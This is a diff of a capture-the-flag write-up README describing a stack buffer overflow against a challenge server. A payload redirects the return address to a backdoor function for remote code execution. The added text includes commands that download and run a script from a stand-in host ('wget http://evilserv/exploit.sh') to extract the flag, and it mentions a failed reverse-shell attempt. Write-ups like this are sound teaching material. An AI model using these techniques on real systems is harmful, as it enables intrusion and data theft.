

Before and after one commit to Ax8457/WriteUPs, a Markdown page: Xmas_RootMe_2024/GoPwnGown/README.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

`````diff
--- a/Xmas_RootMe_2024/GoPwnGown/README.md
+++ b/Xmas_RootMe_2024/GoPwnGown/README.md
@@ -48,24 +48,27 @@ func handleRequest(w http.ResponseWriter, r *http.Request) {
 }
 ````
 
-<p align="justify">To exploit it, I started by running the docker on my machine to adjust my payload using the logs. I developped a tiny C script avalible under exploit.c in this repo, to guess the number of chars I had to sent before overwritte ret address on the stack. The method I followed is described below : </p>
+<p align="justify">To exploit it, I started by running the docker on my machine to adjust my payload using the logs. I developped a tiny C script available under exploit.c in this repo, to guess the number of chars I had to sent before overwritte ret address on the stack. The method I followed is described below : </p>
 
 - I started by extracting the server binary running in the docker
-- Then I extrated the address of the lalubackdoor using gdb
+- Then I extracted the address of the lalubackdoor using gdb
 - I used this address in little endian format crafting the payload like this : payload = 64* 'A' + [little endian backdoor address]. I started with 64 bytes because it was the size of the buffer
-- Then I sent the payload to the server and added one char at each loop, checking the logs in the meantine to identify the exact number of bytes required to perform a bof
+- Then I sent the payload to the server and added one char at each lap, checking the logs in the meaningtime to identify the exact number of bytes required to perform a bof
 
 <p align="justify">It came that I had to sent 72 chars before being able to overwritte the ret address and access lalubackdoor, as shown in the snippet below with the error on the execution of /bin/bash meaning that I well overwrote the ret address : </p>
 
 <p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>
 
-The payload size once defined; I implemented a second C script to send command to run to the server so that I could have been able to read the flag, the script is available in exploit2.c in this repo.
+<p align="justify"> The payload size once defined; I implemented a second C script to send commands to run to the server so that I could have been able to read the flag, the script is available in exploit2.c in this repo. This script adjusts payload size considering length of command and relay it to server to perform RCE. After a few tries I identified the directory /flag which was likely to contain the flag as shown in the screenshots below : </p>
 
 <p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>
-
 <p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>
 
-<p align="center"><img src="Screenshots/S5.png" alt="Desc"></p>
+<p align="justify"> Finaly after adjusting my payload locally, I opened a listening port on my machine and sent the bash script below to read the flag on the challenge server and extract it. Actually I tried to download and launch a compiled revshell but I failed because LibC (nc too) was missing on the server. I'v done it with 3 commands : </p>
+
+ - 1st : wget http://evilserv/exploit.sh
+ - 2nd : chmod +x exploit.sh
+ - 3rd : ./exploit.sj
 
 ````bash
 #!/bin/bash
`````
Also changed, not shown: other parts of Xmas_RootMe_2024/GoPwnGown/README.md (+4 -0 lines).
